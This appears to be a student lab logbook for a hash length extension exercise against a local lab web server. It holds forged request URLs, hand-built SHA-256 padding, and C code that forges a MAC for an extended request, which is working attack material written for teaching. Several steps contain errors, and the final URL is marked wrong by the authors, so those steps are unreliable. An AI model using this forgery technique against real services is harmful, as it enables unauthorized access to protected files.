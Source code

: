 ## Hash Length Extension

#### Task 1: Send Request to List Files

First we picked a uid number from the ```key.txt```file: **1001:123456**.

We built the message: 
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
```

To calculate the MAC, we ran the command:
```
$ echo -n "123456:myname=MariaVieira&uid=1001&lstcmd=1" | sha256sum
```
The result was **1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e  -**.

Then, we built the request and sent it using the browser: 
```
http://www.seedlab-hashlen.com/?myname=MariaVieira&uid=1001&lstcmd=1mac=1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e
```
This didn´t work, so we tried to use 10.9.0.80 in the url:
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1&mac=1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e&subid1=20241206-1030-1288-97a0-15adcfd528ba
```
This time, it worked, showing the files successfully:


![Image 1](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1_LOGBOOK10_2.png)


Then, we did the download request:
- We had to calculate the MAC again with 
```echo -n "123456:myname=MariaVieira&uid=1001&lstcmd=1&download=secret.txt" | sha256sum```
- Sent the updated url: 
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1&download=secret.txt&mac=289e9016b7caf160b0b116505c9452ac870b83598d95df94c221c47393d264d5
```

The request was successful, showing the files in LabHome and the content of ```secret.txt```!

![Image 2](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1_LOGBOOK10_3.png)

#### Task 2: Create Padding

We already have the message from Task1:
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
```
The length of the message is 43
bytes, so the padding is 64 - 43 = 21 bytes, including 8 bytes of the length field. 

The length of the message in
term of bits is 43 * 8 = 176 = 0x158. 

SHA256 will be performed in the following padded message:
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
\x80
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x01\x58

```

Because of the 21 bytes of padding, we added ```\x00```21 times before the length field.

Converting to URL enconding, we obtained:
```
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
```


#### Task 3

We changed the file according to our attack:
```
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
  int i;
  unsigned char buffer[SHA256_DIGEST_LENGTH];
  SHA256_CTX c;
  
  SHA256_Init(&c);
  
  for(i=0; i<64; i++)
    SHA256_Update(&c, "*", 1);
    
  // MAC of the original message M (padded)
  c.h[0] = htole32(0x1b7ae954);
  c.h[1] = htole32(0xe7654d0d);
  c.h[2] = htole32(0xf10f49c0);
  c.h[3] = htole32(0x01b146bc);
  c.h[4] = htole32(0xc0034135);
  c.h[5] = htole32(0x5349f58f);
  c.h[6] = htole32(0xd7ce0b0e);
  c.h[7] = htole32(0x79e1d06e);
  
  // Append additional message
  SHA256_Update(&c, "&download=secret.txt", 20);
  SHA256_Final(buffer, &c);
  
  for(i = 0; i < 32; i++) {
    printf("%02x", buffer[i]);
  }
  printf("\n");
  return 0;
}
```

Then we ran the code, obtaining the new MAC for the extended request:

![Image 3](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task3_LOGBOOK10.png)

Finally, we could build the url to the attack:

- Request from task1
- PADDING from task2: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
- MAC from task3: 301f72317f48d9351690d119d77a527b1b236fc6f7992653c91e9014e1f6279d

ESTA MAL

http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
&download=secret.txt&mac=301f72317f48d9351690d119d77a527b1b236fc6f7992653c91e9014e1f6279d




